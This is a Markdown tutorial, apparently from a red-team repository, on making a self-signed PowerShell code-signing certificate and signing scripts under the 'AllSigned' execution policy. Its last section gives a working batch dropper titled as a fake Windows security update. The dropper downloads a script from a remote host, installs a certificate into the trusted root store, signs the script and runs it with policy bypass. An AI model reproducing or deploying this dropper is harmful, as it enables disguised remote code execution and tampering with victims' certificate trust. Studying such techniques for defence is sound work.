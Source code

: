 ### Create a Self-Signed Certificate for Code Signing

<br />

In PoweShell 3.0, the [New-SelfSifgnedCertificate](https://docs.microsoft.com/en-us/powershell/module/pkiclient/new-selfsignedcertificate?view=win10-ps) cmdlet was generating only SSL certificates that couldn’t be used to sign the driver and application code (unlike certificates generated by the MakeCert utility). In PowerShell 5 the new version of the New-SelfSifgnedCertificate
cmdlet can now be used to issue a Code Signing certificates.

<br />

#### Lets build our test script { my_posh_script.ps1 } - Open Notepad Copy/Paste/Save it
```
# Malicious Code to execute
write-host "Just to test IF certificate sign was worked.." -ForeGroundColor green -BackGroundColor black
Start-Sleep -Seconds 3

```
<br />

#### Lets set 'Target' PS Execution Policy to 'AllSigned' to test the script (no need admin rigths)
`Set-ExecutionPolicy AllSigned -Scope CurrentUser`
![drrr](https://user-images.githubusercontent.com/23490060/72698984-6cf18480-3b3e-11ea-8c93-81b5ae68a9d6.png)

<br />

#### Lets Run our Script (With PS ExecutionPolicy set to 'AllSigned')
[AllSigned = Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sd11](https://user-images.githubusercontent.com/23490060/72687408-6a1e7180-3af5-11ea-8d14-c0ffa221468d.png)

<br />


#### To create a self-signed certificate for signing the application code (my_posh_script.ps1), run the command:
```
$cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate” -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My
```
![sdr](https://user-images.githubusercontent.com/23490060/72689217-0dc44d80-3b07-11ea-98f6-1acadb0615b3.png)

<br />

#### Let’s try to sign our PowerShell script (my_posh_script.ps1) using this certificate:
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![fdr](https://user-images.githubusercontent.com/23490060/72689232-3cdabf00-3b07-11ea-9ba7-ff830fca7356.png)

**Remark:** f you are receiving an **'UnknownError'** warning when executing the command, this means that **'the certificate is not trusted'**.
Because it is located in the **'user’s personal certificates store'** To open the certificate store press: Windows+R -> `certlm.msc`.
![sd3](https://user-images.githubusercontent.com/23490060/72686272-bfa15100-3aea-11ea-9f1a-7ae2e2cb0cb2.png)

<br />

#### We need to move our certificate to the 'trusted root certificates' store
![sd4](https://user-images.githubusercontent.com/23490060/72686277-dba4f280-3aea-11ea-9332-9e8c274bb9fe.png)
![sd5](https://user-images.githubusercontent.com/23490060/72686281-e52e5a80-3aea-11ea-96a6-a11bf6e8e8f3.png)
![sd6](https://user-images.githubusercontent.com/23490060/72686284-ec556880-3aea-11ea-9af0-3e43c4ea8fa1.png)

<br />

#### After that, you can sign your PowerShell script with this self-signed certificate.
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![dsf](https://user-images.githubusercontent.com/23490060/72689414-1158d400-3b09-11ea-9d6a-449a224c1952.png)
#### After the script beeing signed, it will be append one certificate {code block} inside the PS script:
![po1](https://user-images.githubusercontent.com/23490060/72687557-d2ba1e00-3af6-11ea-840b-702ccbe4bc73.png)
#### Running the script with PS Execution-Policy set to 'AllSigned'
[AllSigned. Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sdff](https://user-images.githubusercontent.com/23490060/72687601-6a1f7100-3af7-11ea-8f95-9d611d8867b2.png)

---

<br />

**Remark:** After beeing signed, the PS script can not be changed under the risk of breaking cert code block

**Remark:** Remmenber that this certificate its only valid for the Local Machine (current PC) were it was been stored..
That meens if we port the PS script to a remote machine it will not execute, because remote machine does not contain
this certificate in there certificate store ...

<br />

#### Revert Target System to 'Default' Settings. (non admin privs requiered)
`cmd /c echo Y | powershell Set-ExecutionPolicy Restricted -Scope CurrentUser`
![fin](https://user-images.githubusercontent.com/23490060/72699309-ae366400-3b3f-11ea-9397-fc9c2510f907.png)

---

<br />

This next step shows us how this technic can be abused (PS Execution Policy bypass) to remote Download/Execute our PS Script, even if target system is config to Only run digitally Signed PS scripts .. It will download and execute him ..

<br />

#### Batch (dropper.bat) Automation Example:
```
@echo off
title Cumulative Security Update KB4524147

:: Code to Download our PS script to 'tmp' remote folder
powershell -C (New-Object Net.WebClient).DownloadFile('http://192.168.1.71/my_posh_script.ps1', '$env:tmp\my_posh_script.ps1')
timeout /T 2 >nul

:: Code to digitally sign Our Downloaded PS script (my_posh_script.ps1) { This certificate expires in six months }
powershell $cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate” -FriendlyName "SsaRedTeam" -NotAfter (Get-Date).AddMonths(6) -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My;Move-Item -Path $cert.PSPath -Destination "Cert:\LocalMachine\Root";Set-AuthenticodeSignature -FilePath $env:tmp\my_posh_script.ps1 -Certificate $cert
timeout /T 2 >nul

:: Code to Execute our Downloaded script
powershell -Execution Bypass -NoProfile -File "$env:tmp\my_posh_script.ps1"
```
**Remark:** This Dropper.bat can Download-PS-Script/Build-Cert/Sign-PS-Script/Execute-PS-Script because the Policy
its set by Default to powershell Scripts Only (this policy does not affects batch scripts from running and executing all of this)..
